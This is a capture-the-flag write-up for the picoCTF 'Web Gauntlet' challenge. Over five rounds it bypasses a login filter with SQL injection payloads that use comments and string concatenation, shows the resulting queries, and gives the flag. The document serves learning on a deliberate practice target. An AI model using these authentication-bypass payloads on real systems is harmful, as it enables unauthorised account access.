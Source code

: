 # 1. Web Gauntlet 

Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:58384/ http://shape-facility.picoctf.net:58384/filter.php

## Solution:

Open the given link ```http://shape-facility.picoctf.net:52907/``` 
We have to login as admin but we don’t have a password 

# Test login:
**Username-** admin
**Password-** hola

The SQL statement printed is 
```SELECT * FROM users WHERE username='admin ' AND password=‘hola'``` 

Using the website given ```http://shape-facility.picoctf.net:52827/filter.php``` it shows ```Round1: or```

# Round 1/5:

**Username-** admin' --
**Password-** ummmm 

```-- ``` comments out the password check so the query is now 
```SELECT * FROM users WHERE username='admin' --' AND password=‘ummmm'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows  ```Round2: or and like = --```

After this ```-- ``` stopped working so Im assuming the things that are on ```http://shape-facility.picoctf.net:52827/filter.php``` are what can no longer be used. 

# Round 2/5:

**Username-** admin’/*
**Password-** idk

```/* ``` is a multi-line comment which comments out the password check so the query is now 
```SELECT * FROM users WHERE username='admin'/*' AND password=‘idk'```

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round3: or and = like > < --```

# Round 3/5:

Because the last round didn’t mention that the same expression couldn’t be used so I used the same username 

**Username-** admin’/*
**Password-** k

SELECT * FROM users WHERE username='admin'/*' AND password='k'

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round4: or and = like > < -- admin```

# Round 4/5:

**Username-** admi'||'n'/*
**Password-** yes

Use ```||``` to concatenate ```admi``` and ```n```
SELECT * FROM users WHERE username='admi'||'n'/*' AND password=‘yes'

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, it shows ```Round5: or and = like > < -- union admin```


# Round 5/5:

Because the last round didn’t mention that the same expression couldn’t be used so I used the same username

**Username-** admi'||'n'/*
**Password-** done

SELECT * FROM users WHERE username='admi'||'n'/*' AND password=‘done'

On reloading ```http://shape-facility.picoctf.net:52827/filter.php```, we finally get the flag. 

## Flag:
```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:
- ```--``` is used in SQl for single line comments
- ```/*``` is used for multi-line comments
- ```||``` is used to concatenate two strings 

## Resources:
- [https://www.w3schools.com/sql/sql_comments.asp](url)
- [https://www.geeksforgeeks.org/sql/sql-concatenation-operator/](url)



